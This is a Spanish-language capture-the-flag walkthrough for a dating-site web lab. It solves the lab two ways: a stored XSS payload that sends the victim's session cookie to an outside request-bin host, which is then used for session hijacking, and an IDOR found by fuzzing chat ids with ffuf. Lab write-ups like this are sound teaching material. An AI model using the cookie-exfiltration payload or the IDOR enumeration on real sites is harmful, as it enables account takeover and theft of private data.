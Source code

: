 ```yaml
---
title: "OnlyHacks"
date: "2025-02-20T17:00:00-05:00"
draft: false
tags: ["Web", "Insecure Direct Object Reference (IDOR)", "XSS"]
---
```


Al ingresar a la url tenemos la opcion de registrarnos y logearnos que es lo primero que vamos a hacer.

<a href="https://imgur.com/XA5fCKn"><img src="https://i.imgur.com/XA5fCKn.png" title="source: imgur.com" /></a>

Dentro podremos ver una web de citas en la que la unica persona interesante es Renata ya que nos dice que siempre esta conectada, por lo que le vamos a dar match y vamos a hablar con ella.

<a href="https://imgur.com/SPZKCYs"><img src="https://i.imgur.com/SPZKCYs.png" title="source: imgur.com" /></a>

En este punto hay dos formas de resolver la maquina una es haciendo un Cross-Site-Scripting yla otra es modifcando la url ya que podemos ver que cada chat tiene un id.

Vamos a mostrar la primera si tratamos de usar un titulo html en la conversacion con renata este respondera al contenido:

```markdown
<h1>Hi</h1>
```

<a href="https://imgur.com/xZtJ9UZ"><img src="https://i.imgur.com/xZtJ9UZ.png" title="source: imgur.com" /></a>

Vamos a tratar de consegir la cookie de su sesion con el siguiente comando:

```markdown
<script>document.location='http://requestbin.whapi.cloud/19bdo3d1?
c='+document.cookie</script>
```

Vamos a ir a esta pagina [http://requestbin.whapi.cloud/](http://requestbin.whapi.cloud/) crearemos una nueva request y remplazaremos la url en el comando, si hace click en el link y recargamos la pagina de la request tendremos lo siguiente:

<a href="https://imgur.com/KL2LC4b"><img src="https://i.imgur.com/KL2LC4b.png" title="source: imgur.com" /></a>

Remplazaremos esa cookie en el navegador usando inspeccionar y podremos ver los chats de renata junto con la flag.

<a href="https://imgur.com/gF6SYzC"><img src="https://i.imgur.com/gF6SYzC.png" title="source: imgur.com" /></a>

Ahora vamos con la segunda forma

Cuando entramos al chat de renata podemos ver como la url es:

```markdown
http://94.237.55.96:37246/chat/?rid=6
```

Si cambiamos el valor del seis podremos ver otros chats hay una forma de probar esto de manera automatica con ffuf para verificar que sea un IDOR

```bash
#Creamos el diccionario
sed 1 100 > id.txt

ffuf -w id.txt -u 'http://94.237.55.96:37246/chat/?rid=FUZZ' -H "Cookie: session=TUCOOKIE" -mc 200
```

Esto nos devolvio dos posibles chats pero uno es el nuestro por lo que si probamos con el otro tendremos la flag.

<a href="https://imgur.com/EA0H2hP"><img src="https://i.imgur.com/EA0H2hP.png" title="source: imgur.com" /></a>
